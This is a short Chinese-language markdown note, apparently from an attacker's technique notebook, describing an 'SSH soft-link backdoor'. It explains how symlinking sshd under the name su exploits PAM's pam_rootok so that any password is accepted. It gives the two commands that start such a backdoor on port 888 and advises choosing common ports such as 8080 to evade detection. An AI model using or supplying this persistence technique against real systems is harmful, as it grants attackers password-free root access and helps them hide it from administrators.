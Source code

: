 ```yaml
---
title: "SSH 软连接后门"
id: zhfly3486
---
```


# SSH 软连接后门

软连接后门的原理是利用了PAM配置文件的作用，将sshd文件软连接名称设置为su，这样应用在启动过程中他会去PAM配置文件夹中寻找是否存在对应名称的配置信息（su），然而su在pam_rootok只检测uid 0即可认证成功，这样就导致了可以使用任意密码登录。

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888 
```

![image](../img/bfef694471a2b8c7012305bc6792054c.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成8081，8080等端口。